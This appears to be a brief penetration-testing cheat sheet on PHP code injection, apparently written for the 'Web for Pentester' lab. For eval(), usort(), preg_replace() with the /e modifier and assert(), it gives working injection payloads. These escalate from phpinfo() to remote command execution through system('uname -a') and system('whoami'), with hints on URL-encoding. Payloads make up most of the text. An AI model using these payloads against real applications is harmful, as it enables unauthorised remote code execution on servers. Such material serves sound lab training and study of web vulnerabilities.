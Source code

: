 <h2>Code Injection</h2>
Code Injection is the general term for attack types which consist of injecting code that is then interpreted/executed by the application. This type of attack exploits poor handling of untrusted data. These types of attacks are usually made possible due to a lack of proper input/output data validation

<h3>Web for Penterster</h3> 
<h3>example 1</h3> 
eval() - evaluates a string as PHP code

payload- " .phpinfo(). "
payload- " . hacker".system('uname -a');#       - change to RCE  & url encode need 


<h3>example 2</h3> 
usort()- Sort an array by values using a user-defined comparison function

payload-example2.php?order=id,system('whoami')
payload- example2.php?order=id);}system('whoami');#      - change to RCE  & url encode need 


<h3>example 3</h3> 
preg_replace() — Perform a regular expression search and replace

payload - example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello lamer"
payload - example3.php?new=system('uname -a')&pattern=/lamer/e&base=Hello lamer         - change to RCE


<h3>example 4</h3> 
assert() - Checks if assertion is FALSE
payload - example4.php?name=hacker'.phpinfo().'
payload - example4.php?name=hacker'.system('uname -a').'
